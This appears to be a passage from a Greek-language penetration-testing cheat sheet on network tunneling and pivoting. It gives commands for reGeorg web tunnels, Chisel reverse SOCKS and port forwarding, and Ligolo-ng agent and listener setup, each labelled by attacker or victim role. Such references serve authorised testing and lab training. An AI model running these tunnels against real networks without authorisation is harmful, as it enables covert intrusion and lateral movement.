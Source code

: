 [https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

Πρέπει να ανεβάσετε ένα αρχείο ιστού tunnel: ashx|aspx|js|jsp|php|php|jsp
```bash
python reGeorgSocksProxy.py -p 8080 -u http://upload.sensepost.net:8080/tunnel/tunnel.jsp
```
## Chisel

Μπορείτε να το κατεβάσετε από τη σελίδα εκδόσεων του [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)\
Πρέπει να χρησιμοποιήσετε την **ίδια έκδοση για πελάτη και διακομιστή**

### socks
```bash
./chisel server -p 8080 --reverse #Server -- Attacker
./chisel-x64.exe client 10.10.14.3:8080 R:socks #Client -- Victim
#And now you can use proxychains with port 1080 (default)

./chisel server -v -p 8080 --socks5 #Server -- Victim (needs to have port 8080 exposed)
./chisel client -v 10.10.10.10:8080 socks #Attacker
```
### Προώθηση θύρας
```bash
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse #Server -- Attacker
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505 #Client -- Victim
```
## Ligolo-ng

[https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

**Χρησιμοποιήστε την ίδια έκδοση για τον πράκτορα και τον διακομιστή μεσολάβησης**

### Tunneling
```bash
# Start proxy server and automatically generate self-signed TLS certificates -- Attacker
sudo ./proxy -selfcert
# Create an interface named "ligolo" -- Attacker
interface_create --name "ligolo"
# Print the currently used certificate fingerprint -- Attacker
certificate_fingerprint
# Start the agent with certification validation -- Victim
./agent -connect <ip_proxy>:11601 -v -accept-fingerprint <fingerprint>
# Select the agent -- Attacker
session
1
# Start the tunnel on the proxy server -- Attacker
tunnel_start --tun "ligolo"
# Display the agent's network configuration -- Attacker
ifconfig
# Create a route to the agent's specified network -- Attacker
interface_add_route --name "ligolo" --route <network_address_agent>/<netmask_agent>
# Display the tun interfaces -- Attacker
interface_list
```
### Σύνδεση και Ακρόαση Πράκτορα
```bash
# Establish a tunnel from the proxy server to the agent
# Create a TCP listening socket on the agent (0.0.0.0) on port 30000 and forward incoming TCP connections to the proxy (127.0.0.1) on port 10000 -- Attacker
listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
# Display the currently running listeners on the agent -- Attacker
listener_list
```